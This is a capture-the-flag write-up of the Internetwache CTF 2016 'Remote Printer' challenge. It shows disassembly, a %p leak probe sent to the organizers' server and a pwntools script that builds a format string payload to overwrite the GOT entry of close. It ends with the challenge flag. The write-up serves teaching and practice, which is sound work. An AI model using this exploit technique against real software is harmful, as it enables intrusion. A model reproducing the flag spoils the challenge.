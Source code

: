 ```yaml
---
layout: post
title:  "Internetwache CTF 2016: Remote Printer (exp 80)"
author: f0rki
categories: writeup
tags: [cat/binary, tools/pwntools, vuln/fmtstr]
---
```


* **Category:** Exploit
* **Points:** 80
* **Description:**

> Printer are very very important for offices. Especially for remote printing.
> My boss told me to build a tool for that task.

## Write-up

So this remote printer takes an address and a port and connects to the remote
service. It then reads some data and outputs it. Well let's just point it to
itself:

```
$ nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:127.0.0.1
Enter port:12377
Thank you, I'm trying to print 127.0.0.1:12377 now!
This is a remote printer!
```

The last line is the input from itself. So we probably need a listener
reachable via the internet.

The binary itself is rather small, it just consists of the `main` function and
`0x08048786`. The main function uses scanf to read the ip address and port and
calls the second function which connects to the given ip address and port.
Then receives up to `0x2000` bytes of data and then prints it. Let's take a
look at the later one:

```
0x08048815      6a00           push 0
0x08048817      6800200000     push 0x2000
0x0804881c      8d85e4dfffff   lea eax, [ebp-local_2055]
0x08048822      50             push eax
0x08048823      ff75f4         push dword [ebp - 0xc]
0x08048826      e885fdffff     call sym.imp.recv         ; recv 0x2000 to stack

[...]

0x08048844      83ec0c         sub esp, 0xc
0x08048847      8d85e4dfffff   lea eax, [ebp-local_2055]
0x0804884d      50             push eax
0x0804884e      e88dfcffff     call sym.imp.printf      ; input
0x08048853      83c410         add esp, 0x10
0x08048856      83ec0c         sub esp, 0xc
0x08048859      ff75f4         push dword [ebp - 0xc]
0x0804885c      e85ffdffff     call sym.imp.close
0x08048861      83c410         add esp, 0x10
0x08048864      90             nop
```

We can see that the buffer, which is located on the stack, is printed using
`printf`... oh. Classic format string vulnerability. Should be easy.

```
$ python2 -c 'print "ABCD" + ".%p"*100' | nc -vv -l -p 4444
$ nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:X.X.X.X
Enter port:4444
Thank you, I'm trying to print X.X.X.X:4444 now!
ABCD.0xffffbcec.0x2000.(nil).(nil).(nil).(nil).0x44434241.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0xa.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil)
```

So it's definitely a format string vulnerability and we can see that at offset
7 is the start of our format string. So that's where we can put the addresses
we want to write to.

We can see that immediately after the call to `printf` there is a call to
`close`. So we do the usual: Overwrite `GOT` entry of `close` with something of
our liking to take over control flow. Because the organizers were nice they
left us some dead code lying around that will print us the flag at
`0x08048867`. So we'll just redirect control flow there.

```python
from pwn import *  # NOQA

velf = ELF("./RemotePrinter")
gotclose = velf.got["close"]

# uses two 2-byte writes to keep printed garbage at minimum
fmtstr = p32(gotclose)
fmtstr += p32(gotclose + 2)
target = 0x08048867
x = 0x0804 - 8
y = 0x8867 - 8 - x
fmtstr += "%{}c%8$hn%{}c%7$hn".format(x, y)

log.info("trying to write to got entry @ {}".format(hex(gotclose)))
log.info("overwriting with function {}".format(hex(target)))

log.info("using format string: \n" + hexdump(fmtstr))

with open("./payload", "wb") as f:
    f.write(fmtstr)
    f.write("\n")

# use with
# cat payload | nc -v -l -p 4444
```

And we have the flag:

```
YAY, FLAG: IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
```
